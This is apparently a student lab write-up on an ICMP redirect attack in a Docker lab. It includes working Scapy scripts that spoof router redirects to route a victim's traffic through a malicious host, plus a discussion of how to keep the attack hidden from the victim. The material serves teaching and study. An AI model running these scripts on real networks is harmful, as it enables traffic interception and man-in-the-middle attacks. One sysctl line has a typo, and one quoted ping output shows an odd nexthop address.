





# ICMP Redirect Attack — Phase 1

## Goal

Make the victim route packets destined for `192.168.60.5` through our **malicious router** (`10.9.0.111`) instead of the legitimate router (`10.9.0.11`).

---

## How It Works

ICMP redirect messages (type 5) are normally sent by routers to tell a host that a better next-hop exists for a given destination. By **spoofing** this message as if it came from the legitimate router, we can manipulate the victim's routing cache without any access to the actual router.

**Requirements for the redirect to be accepted:**

1. The source IP must appear to be the victim's current default gateway.
2. The enclosed inner packet must match the type and destination of traffic the victim is currently sending.
3. The victim must have `accept_redirects=1` (configured in the lab — see [container-setup.md](../02-environment/container-setup.md)).

---

## Attack Steps

1. **Start the victim pinging the target** (from victim container):
  ```bash
   ping 192.168.60.5
  ```
2. **Send the spoofed ICMP redirect** (from attacker container):
  ```bash
   sudo python3 /volumes/icmp_redirect_attack.py
  ```
3. **Verify the routing cache changed** (from victim container):
  ```bash
   ip route show cache
   # Should show: 192.168.60.5 via 10.9.0.111
  ```
4. **Confirm with traceroute** (from victim container):
  ```bash
   mtr -n 192.168.60.5
   # Should show malicious router (10.9.0.111) as the first hop
  ```

---

## Script: `icmp_redirect_attack.py`

The Python code (`task1.py`) sends spoofed ICMP redirect messages to the victim. The goal is to redirect the victim's traffic from the actual router through the malicious router (the remote machine). The destination `192.168.60.5` is on a separate subnet — not the local LAN — so `192.168.60.6` is correctly ruled out.

```python
#!/usr/bin/env python3
from scapy.all import *

ip= IP(src= "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code =1)
icmp.gw = "10.9.0.111"

ip2 =  IP(src = "10.9.0.5", dst="192.168.60.5")

while True:
        send(ip/icmp/ip2/ICMP());
```

Full script: `[../scripts/icmp_redirect_attack.py](../scripts/icmp_redirect_attack.py)`

---

## Key Implementation Details


| Detail                   | Explanation                                                                   |
| ------------------------ | ----------------------------------------------------------------------------- |
| Spoofed source IP        | Must be the legitimate router's IP — the victim's current gateway             |
| Enclosed inner packet    | Must match the victim's active traffic type (ICMP if victim is pinging)       |
| `code=0` vs `code=1`     | Code 0 = network redirect; Code 1 = host redirect (both work here)            |
| Redirect to offline host | Redirecting to an unreachable IP fails — victim traffic won't flow through it |


---

## Verification (Task 1.A)

After running the attack, the victim's routing cache should show:

```
192.168.60.5 via 10.9.0.111 dev eth0
    cache <redirected> expires 239sec
```



The `<redirected>` flag confirms the route was learned via an ICMP redirect. Additional screenshots for Task 1 are under [04-verification/task1](../04-verification/task1/).

And `mtr -n 192.168.60.5` should show `10.9.0.111` as the first hop — confirming traffic is now flowing through the malicious router.

Proceed to [MITM Attack — Phase 2](mitm-attack.md) to intercept and modify the traffic.

---

## Task 1.B — Redirect to a Non-Existing Machine

**Goal:** Test whether an ICMP redirect can send the victim's traffic through a **non-existing or offline** host on the same network — i.e. set `icmp.gw` to an IP that is not present or unreachable, then observe whether the redirect is accepted.

---

### Script: `task2.py`

The script is the same as Task 1.A except `icmp.gw` is set to `10.9.0.76`, a host that does not exist in the setup (offline). The rest of the packet structure is unchanged.

```python
#!/usr/bin/env python3
from scapy.all import *

ip= IP(src= "10.9.0.11", dst = "10.9.0.5")
icmp = ICMP(type = 5, code =1)
icmp.gw = "10.9.0.76"          # offline / non-existing host

ip2 =  IP(src = "10.9.0.5", dst="192.168.60.5")

while True:
        send(ip/icmp/ip2/ICMP());
```

---

### Verification (Task 1.B)

After running the attack with `icmp.gw = "10.9.0.76"`, the victim's path should **not** change. Traceroute should still show the **legitimate router** as the first hop, not the non-existing host:

```
# From victim: mtr -n 192.168.60.5
# Expected: first hop 10.9.0.11 (legitimate router), then 192.168.60.5
# 10.9.0.76 must not appear in the path
```

In practice, traceroute shows traffic via `10.9.0.11` (legitimate router) and then `192.168.60.5`. The redirect to `10.9.0.76` is ignored — the victim does not update its routing cache.

[Task 1.B — traceroute from victim](../04-verification/task1/task1b-traceroute.png)

---

### Observation

The ICMP redirect **does not work** when `icmp.gw` points to an offline or non-existing host. The victim's kernel checks that the new gateway is reachable before accepting the redirect. Because `10.9.0.76` is unreachable, the redirect is discarded and traffic continues via the legitimate router.


| Scenario | `icmp.gw`                              | Result                                |
| -------- | -------------------------------------- | ------------------------------------- |
| Task 1.A | `10.9.0.111` (online malicious router) | Redirect accepted — traffic rerouted  |
| Task 1.B | `10.9.0.76` (offline / non-existing)   | Redirect rejected — traffic unchanged |


---

## Task 1.C — Purpose of `send_redirects` & Effect of Changing It

**Goal:** In `docker-compose.yml`, the malicious router container includes the entries below. set each value to `1`, run the attack again, and describe the observations (e.g. in traceroute or ping output).

```yaml
sysctls:
  - net.ipv4.conf.all.send_redirects=0
  - net.ipv4.conf.default.send_redirects=0
  - net.ipv4.conf.eth0.send_redirects=0
```

### Purpose of These Entries

These settings control whether the malicious router **sends its own ICMP redirect messages**. When set to `0`, the malicious router is silenced — it will not generate redirects of its own. This is important for our attack because we are **spoofing** redirects from the attacker container; if the malicious router also sends legitimate redirects, it can interfere with or expose the attack.

---

### Experiment — Two Scenarios

Two scenarios are tested by toggling `send_redirects` between `1` (ON) and `0` (OFF). In both cases, the same attack script is used.

### Python Code

The same ICMP redirect script as Task 1.A is used here, with `icmp.gw = "10.9.0.111"`. It is reused unchanged across both scenarios.

---

### Scenario 1 — `send_redirects=1` (ON)

```
net.ipv4.conf.all.send_redirects=1
net.ipv4.conf.default.send_redirects=1
net.ipv4.conf.eth0.send_redirect=1
```

Traceroute from the victim confirms traffic is redirected through the malicious router (`10.9.0.111`) as the first hop, followed by `10.9.0.11` and `192.168.60.5`.

The command `ip route show cache` confirms: `192.168.60.5 via 10.9.0.111 dev eth0 cache <redirected>`. The routing cache is successfully updated.



When `send_redirects=1`, the victim's ping output explicitly shows the ICMP redirect being received from the malicious router:

```
From 10.9.0.111 icmp_seq=4 Redirect Host (New nexthop: 11.0.9.10)
```



The victim can **see** that its traffic is being redirected — the redirect message is visible in the ping output. This is a key difference from Scenario 2.

---

### Scenario 2 — `send_redirects=0` (OFF)

```
net.ipv4.conf.all.send_redirects=0
net.ipv4.conf.default.send_redirects=0
net.ipv4.conf.eth0.send_redirects=0
```

With `send_redirects=0`, the victim's ping output shows **no redirect notification**. The victim cannot see that it is being redirected through the malicious router — the attack is stealthier.



Despite no visible redirect message, the traceroute still shows `10.9.0.111` as the first hop. The redirect is **still working** — the victim's traffic is still rerouted — but the victim has no visible indication of it.



---

### Observation Summary


| Setting    | `send_redirects` | Redirect works? | Victim sees redirect?                    |
| ---------- | ---------------- | --------------- | ---------------------------------------- |
| Scenario 1 | `1` (ON)         | Yes             | Yes — ping shows `Redirect Host` message |
| Scenario 2 | `0` (OFF)        | Yes             | No — ping output is clean                |


**Conclusion:** The `send_redirects=0` setting is preferred for a stealthy attack. When enabled (`=1`), the malicious router sends its own redirect messages which surface in the victim's ping output, revealing that redirection is occurring. Keeping it at `0` ensures our spoofed redirects work silently without the victim being alerted.